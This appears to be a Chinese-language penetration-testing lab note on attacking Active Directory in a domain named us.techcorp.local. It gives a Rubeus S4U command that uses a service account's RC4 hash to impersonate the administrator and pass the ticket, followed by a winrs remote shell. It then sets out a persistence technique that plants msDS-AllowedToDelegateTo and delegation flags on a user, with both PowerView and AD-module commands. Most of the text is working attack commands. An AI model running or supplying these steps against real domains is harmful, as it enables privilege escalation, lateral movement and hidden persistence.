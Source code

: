 ### 方法2（推荐）
使用Rubeus
```
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```
这里：
/impersonateuser ：模拟的用户
/msdsspn ： 原本委托的服务
/altservice ： 模拟的服务

然后
```
winrs -r:us-mssql cmd.exe
```


**注意**

- Note that the msDS-AllowedToDelegateTo is the user account flag which controls the services to which a user account has access to.（请注意，msDS-AllowedToDelegateTo 是用户帐户标志，用于控制用户帐户有权访问的服务。）

- This means, with enough privileges, it is possible to access any service from a user – a neat persistence trick.（这意味着，只要有足够的权限，就可以访问用户的任何服务——一个巧妙的持久化技巧。）

- Enough privileges? – SeEnableDelegationPrivilege on the DC and full rights on the target user - default for Domain Admins and Enterprise Admins.（足够的特权？ – DC 上的 SeEnableDelegationPrivilege 和目标用户的完整权限 - 域管理员和企业管理员的默认设置。）

- That is, we can force set 'Trusted to Authenticate for Delegation' and ms-DS-AllowedToDelegateTo on a user (or create a new user - which is more noisy) and abuse it later.（也就是说，我们可以对用户强制设置 'Trusted to Authenticate for Delegation' 和 ms-DS-AllowedToDelegateTo（或创建一个新用户 - 噪音更大），然后再滥用它。）



# Persistence（域持久性） - msDS-AllowedToDelegateTo

## 设置
使用PowerView
```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}

Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}

Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}

Get-DomainUser –TrustedToAuth
```

使用AD module
```
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}

Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/us-dc.us.techcorp.local')} -Verbose

Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
